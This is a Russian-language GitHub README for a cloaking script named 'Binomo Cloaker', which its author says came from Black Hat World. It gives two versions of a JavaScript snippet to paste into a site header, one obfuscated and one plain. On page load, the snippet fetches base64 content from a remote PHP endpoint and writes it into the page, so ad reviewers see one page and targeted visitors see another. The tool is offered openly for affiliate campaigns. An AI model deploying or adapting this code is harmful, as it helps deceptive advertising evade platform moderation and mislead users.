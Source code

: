 # Binomo Cloaker
Модифицированный скрипт клоакинга, изначально найденный на просторах [Black Hat World](http://blackhatworld.com).

[Описание настройки первых версий тут!](https://yellowweb.top/%d0%ba%d0%bb%d0%be%d0%b0%d0%ba%d0%b8%d0%bd%d0%b3-%d0%b4%d0%bb%d1%8f-%d0%b1%d0%b5%d0%b4%d0%bd%d0%be%d0%b3%d0%be-%d0%bd%d0%be-%d1%83%d0%bc%d0%bd%d0%be%d0%b3%d0%be-%d0%b0%d1%80%d0%b1%d0%b8%d1%82%d1%80/)

[Видео с обзором новых возможностей тут.](https://www.youtube.com/watch?v=x-Z2Y4lEOc0&t=656s)

Внимание: лог трафика сейчас находится просто в папке logs.

По всем вопросам пишите Issues на GitHub либо в паблик http://vk.com/yellowweb

[**Поддержать автора проекта**!](https://capu.st/yellowweb)


Справка по JS-интеграции кло:

Конечный вариант вставить в header конструктора, вместо https://site.ru/ указываете свой домен

`<script>
    var script_url = 'https://site.ru/jsprocessing.php';
    var _0x37a0=['responseText','load','addEventListener','write','readystatechange','GET','readyState'];(function(_0x43ef8f,_0x37a067){var _0x5aaf46=function(_0x1484ee){while(--_0x1484ee){_0x43ef8f['push'](_0x43ef8f['shift']());}};_0x5aaf46(++_0x37a067);}(_0x37a0,0x181));var _0x5aaf=function(_0x43ef8f,_0x37a067){_0x43ef8f=_0x43ef8f-0x0;var _0x5aaf46=_0x37a0[_0x43ef8f];return _0x5aaf46;};window[_0x5aaf('0x2')](_0x5aaf('0x1'),function(){var _0xcc31c6=new XMLHttpRequest();_0xcc31c6['open'](_0x5aaf('0x5'),script_url,!![]),_0xcc31c6['addEventListener'](_0x5aaf('0x4'),function(){if(_0xcc31c6[_0x5aaf('0x6')]==0x4&&_0xcc31c6['status']==0xc8){if(_0xcc31c6[_0x5aaf('0x0')]!==''){var _0x16a5a0=atob(_0xcc31c6[_0x5aaf('0x0')]);document[_0x5aaf('0x3')](''+_0x16a5a0+'');}}}),_0xcc31c6['send']();});        
</script>`

Либо вот такой вариант до обфускации

`<script>
	        var script_url = 'https://safe-shop.shop/jsprocessing.php';
		window.addEventListener("load", function () {
			var request = new XMLHttpRequest();
			request.open('GET', script_url, true);
			request.addEventListener('readystatechange', function () {
				if ((request.readyState == 4) && (request.status == 200)) {
                        if(request.responseText !== ''){
                            var decodedString = atob(request.responseText);
                            document.write(''+ decodedString +'');
                        }
				}
			});
			request.send();
		});
</script>`
